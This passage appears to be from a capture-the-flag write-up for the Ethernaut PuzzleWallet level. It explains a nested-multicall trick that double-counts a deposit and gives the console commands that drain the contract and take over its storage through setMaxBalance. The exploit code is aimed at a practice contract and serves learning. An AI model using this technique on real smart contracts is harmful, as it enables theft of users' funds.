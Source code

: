 But originally **`PuzzleWallet`** itself was called as an Implementation as well.

So at the transaction will be using the **`PuzzleProxy's`** storage.



Within a single transaction calling `multicall`, we will do 3 things.

1. calling `deposit()`
2. calling another `multicall` from multicall(current transaction)\
   \-> this creates new context so new `depositCalled` will be created with `false` value.
3. call execute that withrdaws `0.002` ether.\
   (initial `0.001` and `0.001` that we just are sending now)

In **2.** the inner `multicall` (`multicall` called from `multicall`) will run in the same  context (`msg.value: 0.001 ether`).

(This seems somewhat similar to reentrancy attack)

```javascript
> const deposit = (await contract.deposit.request()).data;
// '0xd0e30db0' -> selector of 'deposit()'

> const innerMulticall = (await contract.multicall.request([deposit])).data;
// multicall that calls deposit();

> const execute = (await contract.execute.request(player, web3.utils.toWei('0.002', 'ether'), [])).data;
// withdraw 0.002 ether
```



```javascript
> const multicallData = [deposit, innerMulticall, execute];

> await contract.multicall(multicallData, { value: web3.utils.toWei('0.001', 'ether')});
```

```javascript
> await web3.eth.getBalance(contract.address);
// '0'
```

Now, we've successfully drained the contract.

Since we can pass the `require` condition `address(this).balance == 0`, what's left is updating `maxBalance` (slot1) to be `player` address!

### 4. Updating slot1

```javascript
> await contract.setMaxBalance(player);
```

Done! 😎

## Key Takeaways
